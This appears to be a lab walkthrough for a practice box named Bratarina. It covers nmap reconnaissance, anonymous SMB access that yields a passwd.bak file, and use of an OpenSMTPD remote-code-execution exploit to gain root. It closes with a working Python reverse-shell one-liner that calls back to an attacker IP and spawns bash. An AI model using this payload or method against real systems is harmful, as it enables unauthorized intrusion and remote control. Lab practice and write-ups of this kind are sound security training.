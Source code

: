 First Start with nmap scan

`nmap -p- --min-rate 10000 -oN fulltcp.txt -v -Pn <IP>`

```
# Nmap 7.93 scan initiated Fri Dec 30 19:37:34 2022 as: nmap -p- --min-rate 10000 -oN fulltcp.txt -v -Pn 192.168.108.71
Nmap scan report for 192.168.108.71
Host is up (0.20s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT    STATE  SERVICE
22/tcp  open   ssh
25/tcp  open   smtp
53/tcp  closed domain
80/tcp  open   http
445/tcp open   microsoft-ds

Read data files from: /usr/bin/../share/nmap
# Nmap done at Fri Dec 30 19:38:10 2022 -- 1 IP address (1 host up) scanned in 35.87 seconds
```

Now we know what ports are open, let's run default nmap scripts.

`nmap -sC -sV -oN normal.tcp -p 22,80,25,445 -Pn <IP>`

```
# Nmap 7.93 scan initiated Fri Dec 30 19:43:41 2022 as: nmap -sC -sV -oN normal.tcp -p 22,80,25,445 -Pn 192.168.108.71
Nmap scan report for 192.168.108.71                                                
Host is up (0.21s latency).                                                        
                                         
PORT    STATE SERVICE     VERSION                                                                                                                                     
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                               
| ssh-hostkey:                                                                     
|   2048 dbdd2cea2f85c589bcfce9a338f0d750 (RSA)
|   256 e3b765c2a78e4529bb62ec301aebed6d (ECDSA)                         
|_  256 d55b795bce48d85746db594fcd455def (ED25519)                      
25/tcp  open  smtp        OpenSMTPD
| smtp-commands: bratarina Hello nmap.scanme.org [192.168.49.108], pleased to meet you, 8BITMIME, ENHANCEDSTATUSCODES, SIZE 36700160, DSN, HELP
|_ 2.0.0 This is OpenSMTPD 2.0.0 To report bugs in the implementation, please contact bugs@openbsd.org 2.0.0 with full details 2.0.0 End of HELP info
80/tcp  open  http        nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: COFFEECORP)
Service Info: Host: bratarina; OS: Linux; CPE: cpe:/o:linux:linux_kernel
                                         
Host script results:
|_clock-skew: mean: 1h40m01s, deviation: 2h53m14s, median: 0s
| smb2-security-mode:    
|   311:                      
|_    Message signing enabled but not required
| smb2-time:                                                                       
|   date: 2022-12-30T18:43:51
|_  start_date: N/A                     
| smb-security-mode:        
|   account_used: <blank>               
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)                                                                                                                              
|   Computer name: bratarina                                                                                                                                          
|   NetBIOS computer name: BRATARINA\x00
|   Domain name: \x00                                                              
|   FQDN: bratarina
|_  System time: 2022-12-30T13:43:52-05:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Dec 30 19:44:30 2022 -- 1 IP address (1 host up) scanned in 49.74 seconds
```

Now we know what services are running on those ports, let with port 80 (http).

![image](https://user-images.githubusercontent.com/87468669/211330775-c20a399f-1084-4702-a38e-d026633081a9.png)

Checked the webservice, part of the page is returning 404. as we can see it is also running `FlaskBB`. After searching online, did dir bursting and got nothing, i moved to smb port.

```
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/PGP/Bratarina]
└─$ smbclient -L 192.168.186.71 -N       
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        backups         Disk      Share for backups
        IPC$            IPC       IPC Service (Samba 4.7.6-Ubuntu)
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 192.168.186.71 failed (Error NT_STATUS_IO_TIMEOUT)
Unable to connect with SMB1 -- no workgroup available
                                                                                                                                                                      
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/PGP/Bratarina]
└─$ smbclient //192.168.186.71/backups -N 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jul  6 08:46:41 2020
  ..                                  D        0  Mon Jul  6 08:46:41 2020
  passwd.bak                          N     1747  Mon Jul  6 08:46:41 2020

                10253588 blocks of size 1024. 6355356 blocks available
smb: \> get passwd.bak 
getting file \passwd.bak of size 1747 as passwd.bak (2.7 KiloBytes/sec) (average 2.7 KiloBytes/sec)
smb: \> put normal.tcp 
NT_STATUS_ACCESS_DENIED opening remote file \normal.tcp
smb: \>
```

anonymous smb login is allowed to the backups share, got a file `passwd.bak` downloaded the file.Tried to upload a file but we dont have permission for that. let's check the file content.

![image](https://user-images.githubusercontent.com/87468669/211336694-a29a0839-a004-42a1-b406-3cdb7ca92d0e.png)

The content f passwd.bak is the `/etc/passwd` file, tried bruteforcing ssh password with user neil did not get the password. let's move to port 25 (OpenSMTP).

![image](https://user-images.githubusercontent.com/87468669/211338283-c858390b-6a95-4529-ac67-0f2763c0d00b.png)

i did some research on exploiting `Opensmtp`, i stumbled on an RCE exploit. Basically what this exploit does is send a malicious cmd get payload to root through smtp which will give use RCE. let's download the exploit.

![image](https://user-images.githubusercontent.com/87468669/211339685-05a7b8ae-c75b-40c1-9c3d-72fa8be8ed1c.png)

running the exploit and putting a reverse shell payload got a reverse shell as user root.
revshell payload:
```
python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.49.186\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"
```













